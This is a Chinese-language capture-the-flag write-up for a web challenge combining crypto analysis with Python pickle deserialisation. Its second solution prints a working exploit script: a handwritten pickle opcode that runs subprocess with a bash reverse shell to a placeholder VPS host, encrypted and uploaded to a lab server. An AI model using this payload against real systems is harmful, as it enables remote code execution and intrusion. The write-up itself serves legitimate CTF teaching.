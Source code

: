 
## 来自一年后的告白回复
这题其实不在计划中，只是群里一直有人喊着 Web 太简单，于是出了一道接近正式比赛难度的题。

总的考点就两步

1. 加密方案分析
2. pickle 反序列化

第一步其实非常简单，而且也给出提示解锁告白密码了，可以直接尝试去破解素数分解。

第二步的方法非常多样，毕竟 pickle 能做的事情实在是太多了。

### 解法一、变量覆盖
黑名单里这么多东西，利用 bytes 和 int 之间的转换来实现，这里直接用 test 同学的 wp

![](./img/image.png)

### 解法二、RCE
解法一是利用修改 session 实现变量覆盖的，作为一个优秀的 hacker，在获得 pickle 反序列化这么大的权限之后，怎么能不尝试 RCE 呢。

我们使用 subprocess 以及 run 功能来实现我们的 反弹 shell 功能，当然直接使用 reduce 也是可以的，毕竟没有限制 R 字节码的使用。

我在群里提到过，Web 也可以进行 shellcode 编程，其实暗示大家可以手写 pickle opcode 的字节码。说不定明年我就把 R 给 ban 了，毕竟真正的告白回复明年才会上线。

```python
import base64
import dis
import pickle

import requests
import pickletools
from sign import encrypt, decrypt

payload = b'''csubprocess
run
(]S'bash'
aS'-c'
aS'bash -i >& /dev/tcp/vps_ip/vps_port 0>&1'
atR0.
'''

opcode = b'\x80\x04\x959\x00\x00\x00\x00\x00\x00\x00}\x94(\x8c\x08username\x94\x8c\x04nemo\x94\x8c\nwin_streak\x94K\x02\x8c\x0ehighest_streak\x94J\xe8\x03\x00\x00u'
opcode += payload

url = "http://10.10.175.100:34497"
session = requests.Session()

session = requests.get(url=url)

# 加密数据
enc_data = encrypt(opcode)

r = requests.post(
    url=f"{url}/upload",
    files={
        ("file", ("test", enc_data))
    }
)

print(r.text)

```




